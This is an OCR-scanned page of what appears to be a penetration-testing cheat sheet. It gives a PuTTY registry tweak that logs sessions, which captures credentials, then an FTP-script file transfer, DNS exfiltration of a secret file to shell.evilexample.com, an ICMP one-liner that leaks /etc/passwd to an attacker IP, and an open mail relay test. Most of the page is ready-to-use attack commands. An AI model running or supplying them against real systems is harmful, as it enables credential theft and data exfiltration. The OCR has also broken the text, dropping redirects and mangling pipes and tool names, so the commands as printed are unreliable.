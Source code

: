 [HKEY CURRENT USER\Software\SimonTatham\Putty\Sessions\Default%20Settings] "LogFileName"="%TEMP%\putty.dat"
"LogType"=dword:00000002"


# TIPS AND TRICKS


FILE TRANSFER

FTP THROUGH NON-INTERACTIVE SHELL

echo open ip 21	ftp.txt
echo user	ftp.txt
echo pass	ftp.txt
echo bin	ftp.txt
echo GET file	ftp.txt
echo bye	ftp.txt
ftp -s:ftp.txt


DNS TRANSFER ON LINUX

On victim:
1. Hex encode the file to be transferred
xxd -p secret	file.hex
2. Read in each line and do a DNS lookup
for b in 'cat file.hex'; do dig $b.shell.evilexample.com; done

On attacker:
1. Capture DNS exfil packets
tcdpump -w /tmp/dns -s0 port 53 and host system.example.com
2.	Cut the exfilled hex from the DNS packet
tcpdump -r dnsdemo -n | grep shell.evilexample.com | cut -f9 -d' ' |
cut -f1 -d'.' | uniq	received.txt
3. Reverse the hex encoding
xxd -r -p	receivedu.txt	keys.pgp


EXFIL COMMAND OUTPUT ON A LINUX MACHINE OVER ICMP

On victim (never ending 1 liner):
stringZ='cat /etc/passwd | od -tx1 | cut -c8- | tr -d " " tr -d "\n"';
counter=0; while (($counter = ${#stringZ)));do ping -s 16 -c 1 -p ${stringZ:$counter:16} 192.168.10.10 &&
counter=$((counter+16));done

On attacker (capture packets to data.dmp and parse):
tcpdump -ntvvSxs 0 'icmp[0]=8'	data.dmp
grep 0x0020 data.dmp 1 cut -c21- 1 tr -d " " 1 tr -d "\n" 1 xxd -r -p


OPEN MAIL RELAY

C:\ telnet x.x.x.x 25 
HELO x.x.x.x
MAIL FROM: me@you.com 
RCPT TO: you@you.com 
DATA
Thank You.
.
quit
